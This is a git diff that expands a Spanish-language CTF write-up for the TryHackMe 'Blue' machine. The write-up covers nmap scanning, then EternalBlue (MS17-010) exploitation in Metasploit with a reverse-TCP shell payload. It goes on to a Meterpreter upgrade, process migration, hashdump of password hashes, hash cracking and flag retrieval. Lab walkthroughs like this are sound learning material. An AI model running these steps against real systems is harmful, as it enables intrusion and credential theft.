

Blue-Fin

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.6819, 0.0921, 0.9918, 0.1535]]

diff --git a/Blue/README.md b/Blue/README.md
@@ -7,19 +7,158 @@
 Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.
 
 ```bash
-    ping -c 1 10.10.236.193
+ping -c 1 10.10.12.50
 ```
 
 ![Ping](img/ping.webp)
 
-Para enumarar, voy a usar snap, con -sC para usar los scripts de reconocimiento por defecto, y -sV para detectar versiones de los servicios y -p- para que escanee todos los puertos.
+Para enumarar, voy a usar snap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.
 
 ```bash
-    nmap -p- -sC -sV 10.10.236.193
+nmap -p- -sV -sC -sS 10.10.12.50
 ```
 
 ![nmap](img/nmap.webp)
 
-De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dóndepuede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  la versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombred del Host, **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. También vemos que está usando **SMB2**.
+De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dóndepuede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  la versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombred del Host, **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode)
 
-Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. 
+Ahora tenemos que encontrar alguna vulnerabilidad que explotar.
+
+Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscnado en Google sobre esta versión del SO encontré esto:
+
+![EternalBLue](img/eternalblue.webp)
+
+Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.
+
+Abrimos metasploit con el comando:
+
+```shell
+msfconsole
+```
+Buscamos el exploit con:
+
+```shell
+search ms17-010
+```
+
+![Exploit](img/exploit.webp)
+
+Seleccionamos el exploit con:
+
+```shell
+use 0
+```
+
+El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:
+
+```shell
+set payload windows/x64/shell/reverse_tcp
+```
+
+![Payload](img/payload.webp)
+
+Debemos ajustar la dirección del host remoto.
+
+```shell
+set RHOSTS 10.10.12.50
+```
+
+Y el host local. Vemos nuestra ip con el comando:
+
+```shell
+ip a
+```
+
+Y lo ajustamos:
+
+```shell
+set LHOST 10.10.162.56
+```
+Ahora ejecutamos el exploit con:
+
+```shell
+run
+```
+
+Efectivamente, la máquina es vulnerable al explot EternalBlue, todo ha salido bien, deberíamos ver algo similar a esto:
+
+![Run](img/run.webp)
+
+Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.
+
+Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:
+
+```shell
+sessions -l
+```
+
+Si solo has hecho esto será la 1.
+
+Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, y a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:
+
+![Meterpreter](img/meterpreter.webp)
+
+Ahora tenemos usa sesión con la shell inversa de meterpreter,, que es ka sesión 2. La activamos con el comando:
+
+```shell
+sessions -i 2
+```
+
+Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:
+
+![whoami](img/whoami.webp)
+
+Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:
+
+![pid](img/pid.webp)
+
+En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:
+
+```shell
+migrate 352
+```
+
+![migrate](img/migrate.webp)
+
+Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:
+
+![hashdump](img/hashdump.webp)
+
+Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante diccionarios, yo he usado Crackstation por ser más rápido.
+
+![CrackStation](img/crackstation.webp)
+
+Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:
+
+```shell
+cd C:\\
+ls
+cat flag.txt
+```
+![flag1](img/flag1.webp)
+
+Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**
+
+```shell
+cd C:\\Windows\\System32\\config
+ls
+cat flag2.txt
+```
+
+![flag2](img/flag2.webp)
+
+La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.
+
+![flag3](img/flag3.webp)
+
+Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:
+
+```shell
+search -f flag3.txt
+```
+
+![search](img/altenativa.webp)
+
+Y con esto ya hemos resuelto la máquina.
+
+![fin](img/fin.webp)
